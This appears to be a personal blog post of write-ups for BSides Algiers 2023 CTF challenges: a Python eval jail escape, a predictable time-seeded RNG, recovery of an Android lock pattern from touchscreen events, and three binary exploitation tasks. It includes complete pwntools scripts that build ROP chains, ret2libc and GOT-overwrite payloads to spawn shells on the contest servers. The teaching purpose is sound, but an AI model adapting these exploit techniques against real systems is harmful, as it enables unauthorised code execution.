

+++
title = "BSides Algiers 2023"
+++

Last weekend I took a part in the bsides algiers CTF 2023 organized by shellmates club, these are writeups for some of the challenges I solved:

## Broken_Base64

no idea, used chatgpt ¯\\_(ツ)_/¯

### flag

```
shellmates{Y0u_h4V3_70_uNd3r5t4nD_H0w_B45364_w0Rk5}
```

## Can you guess?

### recon

we are given 2 python files, `chall.py` and `jail.py`:

### `chall.py`

```python
import multiprocessing as mp
from jail import guess

# This is for challenge setup only
if __name__ == '__main__':
    print('Welcome to the game! I give you the possibility to execute whatever you want but I dare you to guess it right...')
    inp = input('>> ')
    guessed = mp.Value('b', False)


    child_proc = mp.Process(target=guess, args=(inp,guessed,))
    child_proc.start()

    child_proc.join(timeout=3600)

    if guessed.value == True:
        with open('flag.txt') as f:
            print(f.read())
    else:
        print("Told you, no flags will be given for you")

    if child_proc.exitcode is None:
        child_proc.terminate()

```

### `jail.py`

```python

def jail(inp):
    return eval(inp)

def guess(inp, guessed):
    import os, random

    os.setregid(65534, 65534), os.setreuid(65534, 65534)
    try:
        r = jail(inp)
        if random.random() == r:
            print('That\'s right, but you ain\'t get any flags')
            guessed.value = False
    except Exception as e:
        print("Don't break my jail")

```

basically what's going on here is, `chall.py` is allocating a shared memory region called `guessed`, reads user input into `inp` and calls `jail.guess()` from `jail.py`, which calls `jail(inp)` and evaluates the user input, after that it checks if the result equals a random number chosen, if so it sets `guessed.value` to `False`.

notice that the only way to read the flag is if `guessed.value == True`, which is never the case, so we need to find a way to override it.

### the call stack

at this point I started looking into ways to traverse the call stack frames, this way I can access the `guess()` frame (parent) from the `jail()` frame (where we're currently at), and I came across the [`inspect`](https://docs.python.org/3/library/inspect.html) module in python.

### dirty python tricks

since we're in an `eval` and not an `exec`, we can't just import stuff the python way (`import os`), nor can we set attributes the usual way `foo.bar = 5`, we would have to use some tricks such as `__import__('os')` and `setattr(foo, "bar", 5)`.

### final exploit

```python
setattr(__import__('inspect').getargvalues(__import__('inspect').currentframe().f_back.f_back).locals['guessed'], "value", True)
```

### flag

```
shellmates{PYTHOn_FR4mE_0bj3cTs_ARENT_s3CuR3_ARE_Th3y}
```

## SRNG

### recon

we are given a single python script:

```python
#!/usr/bin/env python
from flag import FLAG
import time

class Spooder:
    def __init__(self):
         self.rand, self.i = int(time.time()), 2
         self.generate_random()

    def generate_random(self, m: int = 0x10ffff) -> int:
        self.rand = pow(self.i, self.rand, m)
        self.i = self.i + 1
        return self.rand

    def generate_padding(self, l: int = 0x101) -> str:
        padding = ''
        for i in range(self.generate_random(l)):
            padding += chr(self.generate_random(0xd7fb))
        return padding

spooder = Spooder()

def spooder_encryption(message: str) -> str:
    pad = spooder.generate_padding()
    message = ''.join([chr(ord(c) ^ spooder.generate_random(0xd7fb)) for c in message])
    cipher = pad + message
    return cipher

if __name__ == '__main__':

    welcome = f'''
               ▗▄▖ ▗▄▄▖ ▗▄ ▗▖  ▄▄
              ▗▛▀▜ ▐▛▀▜▌▐█ ▐▌ █▀▀▌
              ▐▙   ▐▌ ▐▌▐▛▌▐▌▐▌
               ▜█▙ ▐███ ▐▌█▐▌▐▌▗▄▖
                 ▜▌▐▌▝█▖▐▌▐▟▌▐▌▝▜▌
              ▐▄▄▟▘▐▌ ▐▌▐▌ █▌ █▄▟▌
               ▀▀▘ ▝▘ ▝▀▝▘ ▀▘  ▀▀
    \n
    This is not the RNG the world wants, and it's not the RNG the world need, but this is the RNG that the world gets.
    Welcome to the Spooder Random Number Generator, or special random number generator.
    It can generate random numbers like this: {', '.join([str(spooder.generate_random()) for _ in range(spooder.generate_random(121))])}.
    It can also generate random strings like this: {spooder.generate_padding(53)}.
    You can also use it to encrypt secrets like this: {spooder_encryption(FLAG).encode().hex()}.
    Here is a free trial:
    1. Generate random string.
    2. Generate random number.
    3. Encrypt.
    '''

    print(welcome)
    tries = spooder.generate_random(7)
    print(f'You have {tries} tries .')
    for _ in reversed(range(tries)):
        choice = input('Choose wisely:\n\t> ')
        if choice == '1':
            print(spooder.generate_padding(11))
        elif choice == '2':
            print(spooder.generate_random(101))
        elif choice == '3':
            print(spooder_encryption(input('what do you want to encrypt?\n\t> ')))
        else:
            exit(0)

```

**TL;DR**:
the script gets the current time (`time.time()`) and uses it to generate """random""" numbers which can easily be predicted.

### final exploit

```python
from pwn import *
import time

class Spooder:
    def __init__(self):
         self.rand, self.i = int(time.time()), 2
         self.generate_random()

    def generate_random(self, m: int = 0x10ffff) -> int:
        self.rand = pow(self.i, self.rand, m)
        self.i = self.i + 1
        return self.rand

    def generate_padding(self, l: int = 0x101) -> str:
        padding = ''
        for _ in range(self.generate_random(l)):
            padding += chr(self.generate_random(0xd7fb))
        return padding

s = Spooder()

def spooder_encryption(message: str) -> str:
    pad = s.generate_padding()
    message = ''.join([chr(ord(c) ^ s.generate_random(0xd7fb)) for c in message])
    cipher = pad + message
    return cipher


n = [str(s.generate_random()) for _ in range(s.generate_random(121))]

p = remote("srng.bsides.shellmates.club", 443, ssl=True)

p.recvuntil(b'this: ')
nums = p.recvline().decode().strip().split(', ')
assert len(nums) == len(n)
nums[-1] = nums[-1][:-1]

for a, b in zip(nums, n):
    assert a == b

p.recvuntil(b'this: ')
s.generate_padding(53)

p.recvuntil(b'this: ')
pad = s.generate_padding()
bruh = bytes.fromhex(p.recvline().strip()[:-1].decode()).decode()

for c in bruh[len(pad):]:
    print(chr(ord(c) ^ s.generate_random(0xd7fb)), end="")

```

### flag

```
shellmates{5p00d3R_Fl4g_f0r_sPooDeR_cH4lL3nge}
```

## lock pattern

### recon

we are given 2 files, `assignment.md` which explains how we obtained the second file `event2` and asked to recover the lock screen pattern

```bash
adb shell getevent | grep "touchscreen" -A 1
adb shell cat /dev/input/event2 > evtx
md5sum event2
#f241a508d5fccea7eb0f33a839a9633f
```

basically, we're getting the content of the touchscreen [input event](https://www.kernel.org/doc/Documentation/input/input.txt) from an android phone.

looking through documentation, we can see that `event2` is a binary file with a list of structures describing events, each event follows the following structure:

```c
struct input_event {
	struct timeval time;
	unsigned short type;
	unsigned short code;
	unsigned int value;
};
```

since we're interested in the finger position on the screen we only want events with type `EV_ABS (0x03)` and codes `ABS_MT_POSITION_X (0x35)` and `ABS_MT_POSITION_Y (0x36)`.

at this point it's trivial to parse the `event2` file, extract the `(x, y)` positions and plot them to get the lock.

### final exploit

```python
from pwn import *
import numpy as np
import matplotlib.pyplot as plt
from matplotlib.animation import FuncAnimation
import struct

f = open("./event2", "rb")

coords = []
saved_x = 0
saved_y = 0

while True:
    try:
        time = f.read(4)
        f.read(4)
        ty = struct.unpack('<H', f.read(2))[0]
        code = struct.unpack('<H', f.read(2))[0]
        value = struct.unpack('<I', f.read(4))[0]
        if ty == 3:
            if code == 0x35:
                saved_x = value
                coords.append((saved_x, saved_y))
            elif code == 0x36:
                saved_y = -value
                coords.append((saved_x, saved_y))
    except Exception:
        break


fig, ax = plt.subplots()
ax.set_xlim(0, 2000)
ax.set_ylim(-2000, 0)
point, = ax.plot([], [], 'ro')
line, = ax.plot([], [], 'ro')

def update(frame):
    x, y = coords[frame]
    point.set_data([x], [y])
    xdata, ydata = line.get_data()
    xdata = np.append(xdata, x)
    ydata = np.append(ydata, y)
    line.set_data(xdata, ydata)
    return point,

ani = FuncAnimation(fig, update, frames=len(coords), interval=1, blit=True)
plt.show()

```

### flag



```
shellmates{457198632}
```

## unaligned

### recon

we're given an ELF binary `unaligned`, it gives you a libc leak (address of `system()`) and reads input overflowing the stack buffer, stack canary is disabled which means we can redirect code execution, classic `ret2libc`.

### alignment

our overflow is only 24 bytes, at first glance this might seem enough for an exploit such as:

```python
payload = b'A'*40 + p64(POP_RDI) + p64(BIN_SH) + p64(system)
```

but this will fail due to stack alignment, since the stack is no longer 16-bytes aligned.

the usual way we'd go about this is to prepend the ROP chain with a `ret` gadget, but since we don't have enough space for that we'll have to find another way.

### libc gadgets

using [`one_gadget`](https://github.com/david942j/one_gadget) on the provided `glibc`, we can find the following gadget:

```bash
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
```

the only requirement here is that `rcx == NULL` (since the first constraints is already satisfied), so we can just set `rcx` to `NULL` and jump to the gadget, and this will fit within our 24 bytes overflow

### final exploit

```python
from pwn import *

context.binary = elf = ELF("./unaligned")
libc = ELF("./libc.so.6")
# p = elf.process()
p = remote("unaligned.bsides.shellmates.club", 443, ssl=True)
assert p

system = int(p.recvline().strip().decode().split(' ')[1], 16)
log.info(f"system@{hex(system)}")

libc.address = system - libc.symbols['system']
log.info(f"libc@{hex(libc.address)}")

r = ROP(libc)
POP_RCX = r.find_gadget(["pop rcx", "ret"]).address
RET = r.find_gadget(["ret"]).address


payload = b'A'*40
payload += p64(POP_RCX) + p64(0) + p64(libc.address + 0x4f2a5)

p.sendlineafter(b'Name:', payload)

p.interactive()
```

### flag

```
shellmates{SOrRY_fOR_f0RciBLy_Un$4tify1ng_0ne_g4DGet_CoN$tr41nT$}
```

## SYS_ROP

### recon

we are given an ELF executable `chall` which has all mitigations disabled and is not linked against `libc`.

when examining it we notice that we have a stack buffer overflow, meaning we can ROP (who would've guessed?).

we can find the following gadgets:

```bash
0x0000000000401085: pop rax; ret;
0x000000000040107f: pop rdi; ret;
0x0000000000401083: pop rdx; ret;
0x0000000000401081: pop rsi; ret;
0x000000000040100a: syscall;
```

we can call arbitrary syscalls.

### exploit plan

since we don't have `libc`, we will have to call `execve("/bin/sh", {"/bin/sh", NULL}, NULL)`.

### final exploit

```python
from pwn import *

context.binary = elf = ELF("./chall")

p = remote("sys-rop.bsides.shellmates.club", 443, ssl=True)
assert p

rw = 0x402010
POP_RAX = 0x401085
POP_RDI = 0x40107f
POP_RSI = 0x401081
POP_RDX = 0x401083
SYSCALL = 0x401011

payload = b'A'*88
payload += p64(POP_RAX) + p64(0)
payload += p64(POP_RDI) + p64(0)
payload += p64(POP_RSI) + p64(rw)
payload += p64(POP_RDX) + p64(32)
payload += p64(SYSCALL)
payload += p64(POP_RAX) + p64(0x3b)
payload += p64(POP_RDI) + p64(rw)
payload += p64(POP_RSI) + p64(rw+16)
payload += p64(POP_RDX) + p64(0)
payload += p64(SYSCALL)

p.sendlineafter(b'message:', payload)

part2 = b'/bin/sh\0'
part2 += p64(0)
part2 += p64(rw)
part2 += p64(0)

p.sendline(part2)

p.interactive()
```

### flag

```
shellmates{yOu_4rE_a_true_H4CkeR}
```

## junior pwner

I'm getting too lazy to write so here's the rough idea:

- you can overflow a stack buffer and override the saved `rbp`
- use that overflow to override the `messages` array and use it to leak a `libc` address
- use the overflow again to write `/bin/sh` to the `messages` array
- override the `puts@GOT` entry with the address of `system()`
- now next time `puts` gets called we call `system()` instead, and since we overwritten all messages with `/bin/sh`, we guarantee that we pass `/bin/sh` as the first argument.

### final exploit

```python
from pwn import *

context.binary = elf = ELF("./chall")

libc = ELF("./libc.so.6")

# p = elf.process()
p = remote("junior-pwner.bsides.shellmates.club", 443, ssl=True)
assert p

p.recvline()
pay1 = p64(elf.got['puts'])*3
pay1 += b'A'*(64-len(pay1))
pay1 += p64(0x4041c0 + 0x50)
gdb.attach(p)
p.sendline(pay1)
n = u64(p.recvline().strip().ljust(8, b'\0'))

libc.address = n - libc.symbols['puts']
log.info(f"libc@{hex(libc.address)}")

p.recv()
BINSH = next(libc.search(b'/bin/sh\0'))
log.info(f"/bin/sh @ {hex(BINSH)}")
pay2 = p64(BINSH)*3
pay2 += b'A'*(64-len(pay2))
pay2 += p64(0x4041c0 + 0x50)
p.sendline(pay2)

p.recv()

pay3 = p64(libc.symbols['system'])
pay3 += p64(libc.symbols['setbuf'])
pay3 += p64(libc.symbols['read'])
pay3 += p64(libc.symbols['srand'])
pay3 += p64(libc.symbols['memcpy'])
pay3 += p64(libc.symbols['time'])
pay3 += p64(libc.symbols['malloc'])
pay3 += p64(libc.symbols['rand'])
pay3 += b'A'*(64-len(pay3))
pay3 += p64(elf.got['puts'] + 0x50)
p.sendline(pay3)

p.interactive()
```

### flag

```
shellmates{Never_trUst_aSlR_eV3N_jUn1Or$_C0ULd_BRE4K_It!}
```
